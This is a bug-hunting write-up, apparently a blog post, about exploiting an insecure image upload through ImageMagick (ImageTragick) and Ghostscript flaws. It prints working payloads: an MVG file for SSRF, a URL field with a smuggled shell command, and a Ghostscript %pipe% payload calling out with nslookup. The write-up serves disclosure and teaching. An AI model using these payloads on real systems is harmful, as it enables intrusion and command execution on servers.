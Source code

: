 ```yaml
---
title: Insecure File Upload Leads to SSRF and RCE
author: Muhammad Adel
date: 2021-011-10 19:40:00 +0200
categories: [Bug Hunting]
tags: [bug hunting, web, writeups]
---
```

## **Introduction**
Peace be upon you all, I am going to share with you a vulnerability which I have found almost a year ago and it is really remarkable for me because it was the first critical vulnerability for me any way let's jump in.

## **ImageMagick**
It is a package commonly used by web services to process images. A number of image processing plugins depend on the ImageMagick library, including, but not limited to, PHP's imagick, Ruby's rmagick and paperclip, and nodejs's imagemagick.. it has been commonly exploited in 2016 when Nikolay Ermishkin from the Mail.Ru Security Team discovered several vulnerabilities in it under the CVEs **(CVE-2016-3714 - CVE-2016-3718 - CVE-2016-3715 - CVE-2016-3716 - CVE-2016-3717).** you can know more information about the vulnerability form here:
[https://imagetragick.com/](https://imagetragick.com/)
## **The Finding**
I was testing the target for a couple of days and I was able to find multiple trivial XSS that's gave me an indication that this target didn't tested well before. Also, the target was running with PHP and I love it as Bug Hunter :). I looked for the file upload vulnerability and I started by sending it to burp plugin which test the file upload vulnerability. after some minutes I saw that red message that the target is vulnerable to CVE-2016-3714. great it is time for validating.

### **SSRF via CVE-2016-3718**
I will setup burp collaborator to receive the connection then simply add the following payload and replace with my your web server URL:

```
1
push graphic-context
2
viewbox 0 0 640 480
3
fill 'url(http://example.com/)'
4
pop graphic-context
```

![](https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F-MCqUkL4kqM1UUu5XPc6%2Fuploads%2FRRICM91g9OJ6HA9gLHTI%2FImagetragick%20CVE-2016-3718_redacted.png?alt=media&token=67ecf899-b8c0-4627-9fa8-745bf4d20843)

### **RCE via CVE-2016-3714**

Now, we have confirmed that it is using the image magic library and it is vulnerable to SSRF so let's try to get RCE.
```
1
push graphic-context
2
viewbox 0 0 640 480
3
fill 'url(https://example.com/image.jpg";|ls "-la)'
4
pop graphic-context
```

I tried it but it didn't give back anything. maybe it is blind?

![](https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F-MCqUkL4kqM1UUu5XPc6%2Fuploads%2Ferrm4RKgIvm3SHHVxJ2Q%2FImagetragick%20CVE-2016-3718%20Payload.png?alt=media&token=aab34ad1-4c87-4bfe-8bc3-45c130d1893b)

![](https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F-MCqUkL4kqM1UUu5XPc6%2Fuploads%2F0E7YUTHCDpWGo4963XkO%2FCollaborator%20CVE-2016-3718.png?alt=media&token=40aea20d-3428-4a61-86b6-98571a34ffae)

Great it is working perfectly!!

### **RCE via GhostScript**
After digging deeper I found that it is also vulnerable to ghostscript vulnerability which also will allow us to get RCE. let's see the following payload:

```
1
%!PS
2
userdict /setpagedevice undef
3
legal
4
{ null restore } stopped { pop } if
5
legal
6
mark /OutputFile (%pipe%nslookup <url>) currentdevice putdeviceprops
```
![](https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F-MR5KvOL_gXbwMWP6Z6m%2Fuploads%2FhyxVQVe6vG7InHA9B1H7%2FGhostscript%20RCE%20via%20File%20Upload%20redacted.png?alt=media&token=7ec3f68f-dc3d-452d-9c3a-10dc53dd9c36)

## **Conclusion**
I hope you enjoyed reading this and if you have any question feel free to ping me any time, Happy Hunting!